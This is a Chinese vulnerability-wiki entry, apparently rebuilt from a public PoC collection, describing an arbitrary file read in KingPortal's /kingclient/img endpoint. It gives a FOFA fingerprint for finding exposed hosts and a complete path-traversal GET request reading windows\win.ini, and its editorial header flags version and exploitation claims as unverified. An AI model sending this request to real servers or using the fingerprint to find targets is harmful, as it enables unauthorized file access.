

# KingPortal开发系统kingclient任意文件读取漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：KingPortal开发系统Web kingclient
- 文献类型：文件读取请求简报
- 版本、权限及部署边界：Windows路径遍历、/kingclient/img的imgPath；无鉴权字段但未实证；版本仅产品名
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. fofa元数据body=残缺，正文完整路径指纹应保留
2. 未授权与已知在野利用仅表格断言，没有原公告/案例/访问控制证据；不能标确认在野
3. 影响版本无真实版本，文件权限与服务部署路径限制未写；Windows win.ini读取不代表跨平台任意文件
4. 请求无代码围栏反斜杠可能被Markdown处理，截图结果未视检；安全版本未给
5. kingclient只是Web端点名不是桌面客户程序，应按KingPortal服务分类

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

KingPortal开发系统kingclient处存在任意文件读取漏洞，未经授权可读取任意文件，对系统造成很大危害。

# 影响版本

KingPortal开发系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/public/javascripts/Common/Util/km_util.js"

POC/EXP：

```text
GET /kingclient/img?imgPath=..\..\..\..\..\..\..\..\..\..\..\..\windows\win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```




# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
